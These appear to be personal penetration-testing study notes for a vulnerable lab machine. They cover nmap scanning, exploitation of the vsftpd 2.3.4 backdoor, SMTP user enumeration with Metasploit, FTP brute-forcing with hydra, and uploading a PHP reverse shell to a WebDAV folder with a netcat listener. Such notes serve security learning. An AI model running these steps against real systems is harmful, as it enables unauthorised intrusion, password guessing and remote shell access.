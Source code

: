     - First find the target ip ⇒ `cat /etc/hosts` && `ping <target ip>`
    - `nmap -sS -sV -sC -p 1-10000 <target ip>` ⇒ to scan for open ports and what the services running on this open ports
    
    > when nmap return with ? on the end of service name , that’s mean the nmap can’t identify the service name or purpose
    
    > If we found a open ports , we need to identify what is running on it so try every port , open it ping , try to login , visit it … etc.
    
    > then we should open msfconsole and search for exploit to this services on the open ports
    
    - `nc -nv <target ip> <port>` ⇒ to try to connect to this port to grep some banner , infoo ==one of the interesting thing maybe one of this port let u connected and have a root shell on the system just by connect ( Bind shell )==
    
      
    

  

- Targeting vsFTPd
    
    - ==On Port 21 , The service running is ⇒ vsftpd 2.3.4==
    - Try to find if the ftp anonymous is allowed ⇒ `By nmap default scan`
    - If Nmap anonymous is allowed ⇒ `ftp <target ip>` && `enter` && `enter`
    
    > The command u do , is regarding to the permeation of anonymous user allow to do
    
    - `searchsploit vsftpd 2.3.4` ⇒ this version of vsftpd is already Vuln so the Vuln can be found on the service it’s self so the script to exploit it , related to connect with netcat on port 6200 , so if the administrator remove this port we can’t do that
    - if we have a smtp on the target , we can enum the user on the system that will make the bruteforce process more easier ⇒ `msfconsole` && `use auxiliary/scanner/smtp/smtp_enum` && `set rhost <target ip>` && `set unixonly true` && `run` ⇒ that will bruteforce the users on the target , which will make us identify what types of ==users and serves accounts== we have
    - `hydra -l service -P /usr/share/metasploit…/data/wordlists/unix_txt <target ip> ftp` ⇒ to bruteforce by the username we have which is serves account && login
    
    > After u login , if the target run a web server , and for some reasons hosted a WEB Dav/ , so this file can store any file u want , so u can upload a php revers shell on it and gain access to the target system
    
    - `ls -al /usr/share/webshells` && `copy the shell and modify it by` && `modify the ip to your ip addr and port`
    
    > ==On Ftp on most case the interesting file can be found here ⇒ cd /var/www && cd dav && put php-reverse-shell.php==
    
    > ==The dav dir is the only file u can upload any thing on it==
    
    - `nc -nvlp 1234` && `click on the shell after u upload it`
    
      
    
      
    
      
    

  

- Targeting PHP
    